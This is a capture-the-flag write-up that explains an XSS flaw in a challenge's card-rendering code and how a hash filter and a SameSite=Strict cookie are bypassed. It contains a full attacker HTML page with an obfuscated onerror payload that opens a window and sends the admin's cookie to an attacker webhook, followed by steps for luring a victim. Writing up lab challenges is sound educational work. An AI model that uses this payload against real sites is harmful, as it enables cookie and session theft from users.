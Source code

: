 # Write Up

Observation on the application:
- Flag is stored in admin cookie.
- Flag cookie is set to SameSite=Strict that means we can't access it from another domain, even from an iframe.
- The application is vulnerable to XSS in this code:

'''

    function createWaifuCardHTML(file, buttonText, buttonAction) {
        const sanitizedFile = DOMPurify.sanitize(file);
        const imgHTML = `<img src="${sanitizedFile}" class="card-img-top">`;
        const buttonHTML = `<button class="btn btn-outline-light" onclick="${buttonAction}('${sanitizedFile}')">${buttonText}</button>`;
        return `<div class="card text-center waifu-item">${imgHTML}<div class="btn-container">${buttonHTML}</div></div>`;
    }
'''

- But we can't directly exploit it because there's some restriction here:

'''

    function displayClaimedWaifus(paths) {
        if (REGEX_SAVE_PROPS.test(initialHash)) {
            throwAlert("Invalid characters detected in the hash. Please try again.");
        }
        ...snip...
    }
    ...snip...    
    ...snip...
    function throwAlert(message) {
        document.location.hash = "";
        alert(message);
        document.location = document.referrer;
    }
    ...snip...
    
'''

Here the step to get xss and steal the flag

1. Create a page that contains the following code:

'''html

    <body></body>
    <script>
    const TARGET = "http://proxy"
    const i1 = document.createElement('iframe')
    function waifuDomainScript() {
        /**
            I use window.open to open a new window, this will make the browser create new window context that
            have cookies with SameSite=Strict.
        */
        const w = window.open("/")
        w.onload = () => {
            window.location = webhook + "?" + w.document.cookie
        }
    }
    let payload = btoa(`webhook='${location.origin}';(${waifuDomainScript})()`)
    payload = btoa(`" onerror="eval(atob('${payload}'))" x="`)
    i1.src = TARGET + '#' + payload
    /**
        Create a sandboxed iframe to prevent alert from being triggered.

        We only need to allow scripts, same origin, and popups, you can check the doc here:
        https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox

        Because the iframe have recursion prevention system that stated here:
        https://www.w3.org/TR/WD-frames-970331#Infinite%20Recursion
        the frame will eventually stop the recursion redirect through the document.referrer and execute our payload.

        There is other way to bypass this, but this is the shortest way to do it.
        As example you can use csp to prevent the frame from redirecting to document.referrer.
    */
    i1.sandbox = 'allow-scripts allow-same-origin allow-popups'
    document.body.appendChild(i1)
    </script>
'''

2.Serve the page using a web server, make sure the server is accessible from the internet.
3.Send the link to the victim.
4.Wait for the victim to open the link.
5.The flag will be sent to the webhook.

**Read more**
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value
- https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#sandbox
- https://www.w3.org/TR/WD-frames-970331#Infinite%20Recursion


